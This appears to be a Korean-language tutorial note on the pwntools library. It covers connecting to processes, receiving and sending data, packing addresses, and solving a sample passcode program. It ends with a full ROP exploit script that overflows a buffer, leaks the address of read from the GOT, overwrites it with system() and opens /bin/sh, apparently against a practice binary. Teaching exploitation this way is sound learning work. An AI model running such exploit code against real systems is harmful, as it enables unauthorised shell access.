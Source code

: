 * NC
remote(IP, PORT) ; IP-string, PORT-int
ex) p = remote("localhost", 1234)

* Local
process(PAHT) ; PATH-string
e ) p = process("./test")

* SSH
ssh(USERNAEM, IP, PORT, PASSWORD) ; USERNAME, IP, PASSWORD - string, PORT - int
                                  ; port=, password=
ex) p = ssh("test", "localhost", port=1234, password="test")
ex) p2 = p.run("/bin/sh")

``` C
//recv_send.c
#include<stdio.h>
#include<stdlib.h>
#include<time.h>

int main(int argc, char *argv[]){
	srand(time(NULL));
	int pass= rand();
	int input;
  
	alarm(1);
  
	printf("Passcode : %d\n", pass);
	scanf("%d",&input);

	if(pass==input) printf("Good!\n");
	else printf(":(\n");

	return 0;
}
```
* recvline() : 한 줄을 받아온다.
tmp = p.recvline()
password = tmp[tmp.find(':')+2:len(tmp)-1]
or
passcode = p.recvline()[10:]

* recvuntil(str) : str까지 받아온다

* recv(int) : int만큼 만 받아온다
p.recvuntil('Passcode:')
passcode = p.recv(2048)

``` python
# exp.py
from pwn import *

p = process("./recv_send")

tmp = p.recvline()
passcode= tmp[tmp.find(':')+2:len(tmp)-1]
p.sendline(passcode)
print p.recv(2048)
```

* packing
  * p32 : 32bit little endian으로 packing
  ex) p32(0x12345678) => \x78\x56\x34\x12
  ex) p32(0x12345678, endian='bin') : big endian으로 packing
  * p64 : 64bit little endian으로 packing
  ex) p64(0x12345678) = \x00\x00\x00\x00\x78\x56\x34\x12
  ex) p64(0x12345678, endian='bin') : big endian으로 packing

* unpacking
  * u32 : 32bit little endian을 unpack
  ex) u32("\x78\x56\x34\x12") => 305419896(= 0x12345678)
  ex) u32("\x78\x56\x34\x12", endian='bin') : big endian으로 unpack
  * u64 : 64bit little endian을 unpack
  
* interactive()
ex) p = remote("108.61.161.168", 12341234123)
    ''''
    p. interactive()
 
 ``` python
 from pwn import *

PPPR = 0x080484b6
read_plt = 0x0804832c 
read_got = 0x0804961c
write_plt = 0x0804830c
bss = 0x08049628
offset = 0x99a10
binsh = "/bin/sh"

len_binsh = len(binsh)

p = remote("localhost", 9904)

pay = "A"*140
pay += p32(read_plt)+p32(PPPR)+p32(0)+p32(bss)+p32(len_binsh)	    #read(0, bss, 8)	 => Overwrite /bin/sh to bss
pay += p32(write_plt)+p32(PPPR)+p32(1)+p32(read_got)+p32(4)	    #write(1, read_got, 4)  => printf read_got
pay += p32(read_plt)+p32(PPPR)+p32(0)+p32(read_got)+p32(4)	    #read(0, read_got, 4)   => Overwrite system to read_got
pay += p32(read_plt)+"ABCD"+p32(bss)				    #read("ABCD", bss)  =>   system(bss)  =>  system("/bin/sh")

print "Send Explot : %s" % pay

p.send(pay)

print "Send /bin/sh : %s" % binsh

p.send(binsh)

sleep(1)

print "Reseving"

tm = p.recv(4)

print "Reseve Complete!"
print "read_got : %x" % u32(tm)

sys = u32(tm) - offset

print "system_plt : %x" % sys

p.send(p32(sys))

sleep(0.3)

print "Send system"

p.sendline("id")

sleep(1)

print p.recvline()

p.interactive()
```
